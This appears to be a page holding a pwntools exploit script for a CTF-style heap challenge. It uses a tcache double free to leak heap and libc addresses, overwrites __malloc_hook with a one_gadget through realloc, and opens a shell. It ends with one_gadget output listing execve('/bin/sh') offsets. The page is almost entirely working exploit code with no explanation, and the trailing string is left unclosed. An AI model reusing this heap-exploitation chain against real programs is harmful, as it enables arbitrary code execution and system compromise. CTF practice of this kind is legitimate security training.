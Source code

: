 ```python
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,'\x00'))
def add(size):
    sla("choice: ",'1')
    sla("size?",str(size))
def edit(idx,content):
    sla("choice: ",'2')
    sla("idx?",str(idx))
    sla("content:",content)
def show(idx):
    sla("choice: ",'3')
    sla("idx?",str(idx))
def delete(idx):
    sla("choice: ",'4')
    sla("idx?",str(idx))
z('b *0x555555554B6F\nb *0x555555554C90\nb *0x555555554D18\nb *0x555555554DA0\n')
add(0x80)#0
add(0x10)#1 -->
delete(0)
delete(0)
show(0)
leak_addr=leak_address()
print hex(leak_addr)
heap_base=leak_addr-0x250-0x10
log.info("heap_addr:"+hex(heap_base))
add(0x80)#2->0
edit(2,p64(heap_base+0x10))
add(0x80)#3->0
add(0x80)#4->heap_+0x10
pd='\x07'*64
edit(4,pd)
delete(0)
show(0)
leak_addr=leak_address()
print hex(leak_addr)
libc_base=leak_addr-96-0x10-libc.sym['__malloc_hook']
malloc_hook=libc_base+libc.sym['__malloc_hook']
realloc=libc_base+libc.sym['__libc_realloc']
one_gadget=0x10a38c+libc_base
edit(4,'\x07'*64+p64(malloc_hook-8))
add(0x10)#5
edit(5,p64(one_gadget)+p64(realloc+8))
add(0x10)#6
p.interactive()
'''
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL
0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
